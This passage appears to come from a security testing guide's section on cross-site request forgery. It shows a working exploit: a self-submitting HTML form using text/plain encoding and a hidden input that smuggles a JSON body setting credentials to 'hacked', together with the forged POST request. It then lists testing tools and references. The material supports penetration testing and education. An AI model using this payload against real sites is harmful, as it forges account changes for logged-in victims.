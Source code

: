     </body>
    </html>

In case of modern web application in which developers are utilizing JSON for browser to server communication. The problem arises with the fact that there are no query parameters with the JSON format, which are a must with self-submitting forms. To bypass this case, we can use a self-submitting forms with JSON payloads with a hidden input to exploit CSRF. We'll have to change the encoding type to text/plain for sanity. The exploit code will look like the following:
```
<html>
 <body>
  <script>history.pushState('', '', '/')</script>
   <form action='http://victimsite.com' method='POST' enctype='text/plain'>
     <input type='hidden' name='{"name":"hacked","password":"hacked","padding":"'value='something"}' />
     <input type='submit' value='Submit request' />
   </form>
 </body>
</html>
```
The POST request will be as follow:
```
POST / HTTP/1.1
Host: victimsite.com
Content-Type: text/plain

{"name":"hacked","password":"hacked","padding":"=something"}
```
when this data is sent as a POST request, the server will happily accept the name and password fields and ignore the one with the name padding as it does not need it.

Tools
-----

-   WebScarab Spider <http://www.owasp.org/index.php/Category:OWASP_WebScarab_Project>
-   CSRF Tester <http://www.owasp.org/index.php/Category:OWASP_CSRFTester_Project>
-   Cross Site Requester <http://yehg.net/lab/pr0js/pentest/cross_site_request_forgery.php> (via img)
-   Cross Frame Loader <http://yehg.net/lab/pr0js/pentest/cross_site_framing.php> (via iframe)
-   Pinata-csrf-tool <http://code.google.com/p/pinata-csrf-tool/>

References
----------

**Whitepapers**\
\* Peter W: “Cross-Site Request Forgeries” - <http://www.tux.org/~peterw/csrf.txt>

-   Thomas Schreiber: “Session Riding” - <http://www.securenet.de/papers/Session_Riding.pdf>
-   Oldest known post - <http://www.zope.org/Members/jim/ZopeSecurity/ClientSideTrojan>
-   Cross-site Request Forgery FAQ - <http://www.cgisecurity.com/articles/csrf-faq.shtml>
-   A Most-Neglected Fact About Cross Site Request Forgery (CSRF) - [<http://yehg.net/lab/pr0js/view.php/A_Most-Neglected_Fact_About_CSRF.pdf>](http://yehg.net/lab/pr0js/view.php/A_Most-Neglected_Fact_About_CSRF.pdf)

Remediation
-----------
